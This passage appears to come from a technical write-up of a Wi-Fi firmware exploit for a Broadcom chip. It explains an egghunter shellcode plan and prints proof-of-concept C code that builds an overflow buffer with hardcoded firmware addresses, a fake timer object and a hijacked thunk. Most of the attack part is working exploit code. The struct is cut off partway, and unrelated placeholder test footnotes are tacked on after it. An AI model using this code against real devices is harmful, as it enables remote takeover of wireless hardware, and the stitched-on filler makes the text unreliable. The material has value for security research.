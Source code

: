 What we’ll do, therefore, is this: write a small stub of shellcode within wlc->pm, which saves the stack frame (so we can restore normal execution afterwards) and jumps to the next 32 bytes of shellcode which we store in the unused SSID string. This compact shellcode is nothing else than classic egghunting shellcode, which searches the ring buffer for a magic number which indicates the beginning of our payload, then jumps to it.



 

So, time to look at the POC code. This is how the exploit buffer is crafted:

u8 *generate_wmm_exploit_buf(u8 *eid, u8 *pos) {  
  uint32_t curr_len = (uint32_t) (pos - eid);  
  uint32_t overflow_size = sizeof(struct exploit_buf_4359);  
  uint32_t p_patch = 0x16010C; // p_restore_cpsr  
  uint32_t buf_base_4359 = 0x1e7e02;  
  struct exploit_buf_4359 *buf = (struct exploit_buf_4359 *) pos;
  memset(pos, 0x0, overflow_size);
  memcpy(&buf->pm_st_field_40_shellcode_start_106, shellcode_start_bin, sizeof(shellcode_start_bin)); // Shellcode thunk  
  buf->ssid.ssid[0] = 0x41;  
  buf->ssid.ssid[1] = 0x41;  
  buf->ssid.ssid[2] = 0x41;  
  memcpy(&buf->ssid.ssid[3], egghunt_bin, sizeof(egghunt_bin));  
  buf->ssid.size = sizeof(egghunt_bin) + 3;
  buf->pm_st_field_10_pspoll_timer_58 = buf_base_4359 + offsetof(struct exploit_buf_4359, t_field_0_2); // Point pspoll timer to our fake timer object
  buf->pm_st_size_38 = 0x7a;  
  buf->pm_st_field_18_apsd_trigger_timer_66 = 0x1e7ab4;  
  buf->pm_st_field_28_82 = 0xc8;  
  buf->pm_st_field_2c_86 = 0xc8;  
  buf->pm_st_field_38_pm2_rcv_timer_98 = 0x1e819c;  
  buf->pm_st_field_3c_pm2_ret_timer_102 = 0x1e811c;  
  buf->pm_st_field_78_size_162 = 0x1a2;  
  buf->bss_info_field_0_mac1_166 = 0x84cac000;  
  buf->bss_info_field_4_mac2_170 = 0x106b9ba;
  buf->t_field_20_34 = 0x200000;  
  buf->t_field_18_26 = p_patch - 0x14; // Point field_18 to the restore_cpsr thunk  
  buf->t_field_1c_30 = buf_base_4359 + offsetof(struct exploit_buf_4359, pm_st_field_40_shellcode_start_106) + 1; // Write our shellcode address to the thunk
  curr_len += overflow_size;  pos += overflow_size;
  return pos;
}

struct shellcode_ssid {  
  unsigned char size;  
  unsigned char ssid[31];
} STRUCT_PACKED;
 
struct exploit_buf_4359 {  
  uint16_t stub_0;  
  uint32_t t_field_0_2;  
  uint32_t t_field_4_6;  
  uint32_t t_field_8_10;  
  uint32_t t_field_c_14;  
  uint32_t t_field_10_18;  
  uint32_t t_field_14_22;  
  uint32_t t_field_18_26;  
  uint32_t t_field_1c_30;  
  uint32_t t_field_20_34;  
  uint32_t pm_st_size_38;  
  uint32_t pm_st_field_0_42;  
  uint32_t pm_st_field_4_46;  
  uint32_t pm_st_field_8_50;  
  uint32_t pm_st_field_c_54;  
  uint32_t pm_st_field_10_pspoll_timer_58;  

[^1]: Footnote number one yeah baby! Long sentence test of footnote to see how the words are wrapping between each other. Might overflowww!
[^2]: A footnote you can link to - [click here!](#)